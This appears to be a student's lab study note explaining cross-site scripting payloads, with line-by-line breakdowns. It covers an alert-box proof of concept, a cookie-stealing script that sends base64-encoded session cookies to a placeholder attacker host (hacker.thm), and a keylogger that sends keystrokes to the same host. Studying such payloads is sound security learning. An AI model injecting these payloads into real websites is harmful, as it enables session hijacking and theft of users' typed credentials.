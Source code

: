 the payload or technique by which we can demonstrate  that we have achieve an xss on a website . this can include alert box to pop up in most of  the cases . 

```javascript
Example Payload :- <script>alert('xss');</script>
```

- In this above payload .... ^7c662c
	- `<script>` : Is a HTML tag that used to define a client -side script ( in this case , java script ) , or basically means it is used to  executable code or data; typically used to embed or refer to JavaScript code . ^5c8257
	- `alert()` : it is a function that instruct the browser to display a dialog with an optional message or specified message, and to wait until the user dismisses the dialog . 
	- `alert('XSS')` : in this case it create a pop-up box with the specified message 'XSS'
	-  The entire string `<script>alert('XSS');</script>` is the payload that, if successfully injected into a webpage, will be executed by the user's browser, displaying the alert box. This is often used as a Proof of Concept (PoC) to demonstrate that an XSS vulnerability exists.

##### <span style="color: pink;">**2. Session Stealing :-**</span>  
It basically refers where an attacker intercepts and obtains a user's `session ID` , often stored as `cookie` value , to impersonate(to pretend to be someone else ) the user and gain unauthorized access to their account . Below JavaScript code take the target's cookie , encode it using `base64` to ensure successful transmission of the cookie data . Once the attacker have the `Session ID` or `Cookie` value , they can use it to make requests to the server as if they were the legitimate user , bypassing authentication measures .

```javascript
Example Playload :- <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

- In this Above Payload ....
	- `<script>` : is a HTML tag used to define a client-side script  [[#^5c8257|Explained above]]
	- `fetch()` : it is a method in JavaScript , way to retrieve resources from a server . 
	- `fetch('https://hacker.thm/steal?cookie=')` : this send an HTTP request to the specified URL , in this case `https://hacker.thm/steal?cookie=`  , the request includes the stolen cookies as a parameter .
	- `btoa(document.cookie)` : The _btoa()_ method _encodes a string in base-64_ , here its is `document.cookie` ( which contains all the cookies associated with the current website ) . This is done to ensure successful transmission of the cookie data.
	- The entire payload `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>` will be executed in the user's browser if successfully injected. It sends the user's cookies to the attacker's server (`https://hacker.thm/steal`), allowing the attacker to potentially take over the user's session


##### <span style="color: pink;">**3. Key Logger :-**</span>
This below code functions as a` key logger`. This implies that whatever text you enter on the website will be sent to a website that the hacker is in control of. If the website on which the payload was placed allowed user logins or credit card information, this might be extremely harmful.

```javascript
Example Payload :- <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```
